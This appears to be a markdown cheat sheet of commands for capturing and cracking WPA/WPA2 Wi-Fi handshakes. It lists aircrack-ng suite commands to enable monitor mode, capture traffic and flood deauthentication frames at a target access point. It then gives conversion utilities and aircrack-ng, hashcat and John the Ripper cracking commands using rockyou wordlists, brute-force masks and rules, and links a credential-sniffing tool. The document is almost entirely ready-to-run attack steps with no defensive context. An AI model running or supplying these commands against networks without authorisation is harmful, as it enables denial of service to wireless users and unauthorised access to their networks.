 ## Capture Handshake

1. airmon-ng start wlan0
2. airodump-ng mon0 --write capture.cap -c 11
3. aireplay-ng --deauth 0 -a bb:bb:bb:bb:bb:bb mon0

Convert pcap files for john and hashcat

/usr/lib/hashcat-utils/cap2hccapx.bin input.pcap output.hccapx [filter by essid] [additional network essid:bssid]
/usr/sbin/hccap2john
/usr/sbin/vncpcap2john
/usr/sbin/wpapcap2john


## Cracking Handshake with Aircrack

- aircrack-ng -w /usr/share/wordlist/fasttrack.txt 0001.cap

## Cracking Handshakes with Hashcat

- hashcat.exe -m 2500 capture.hccapx rockyou.txt (Dictionary Attack)
- hashcat.exe -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d (Brute-Force)
- hashcat.exe -m 2500 -r rules/best64.rule capture.hccapx rockyou.txt (Rule-Based)

## Cracking Handshakes with John The Ripper

Did you run hccap2john?

- john --format=wpapsk --wordlist=/usr/share/wordlists/rockyou.txt crackmecap
- john --format=wpapsk-opencl --wordlist=/usr/share/wordlists/rockyou.txt crackmecap



Other Resources: 

https://github.com/lgandx/PCredz 